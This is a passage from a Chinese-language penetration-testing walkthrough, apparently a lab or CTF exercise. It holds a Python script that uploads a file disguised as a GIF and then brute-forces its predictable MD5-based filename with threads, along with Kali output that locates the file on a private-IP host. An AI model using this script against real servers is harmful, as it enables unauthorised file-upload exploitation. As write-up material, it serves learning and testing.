    ```python
   
   upload_time = int(time.time())
   with open(filename, "rb") as f:
       files = {"file": (filename, f, "image/gif")}
       requests.post(upload_url, files=files)
   print("[INFO] Upload initiated. Starting brute force...")
   
   # ===== 生成爆破队列 =====
   for t in range(upload_time - 1, upload_time + 2):
       for rand_num in range(1, 1001):
           md5_hash = hashlib.md5(f"{t}{rand_num}".encode()).hexdigest()
           url = f"{base_url}{md5_hash}.gif"
           queue.put(url)
   
   # ===== 工作线程定义与执行 =====
   def worker():
       while not stop_flag.is_set():
           try:
               url = queue.get_nowait()
           except:
               break
           try:
               r = requests.get(url, timeout=2)
               if r.status_code != 404:
                   print(f"\n[FOUND] {url}")
                   stop_flag.set()
           except requests.RequestException:
               pass
           finally:
               queue.task_done()
   
   thread_list = []
   for _ in range(threads):
       t = threading.Thread(target=worker)
       t.start()
       thread_list.append(t)
   
   queue.join()
   stop_flag.set()
   print("\n[INFO] Script finished.")
   ```

2. **执行脚本**
   运行脚本，它会自动完成上传和爆破过程。

   ```bash
   ┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
   └─$ python3 a.py
   ...
   [FOUND] http://192.168.205.131/uploads/a06d0c0ae19cab9352271c103cf13055.gif
   ...
   ```
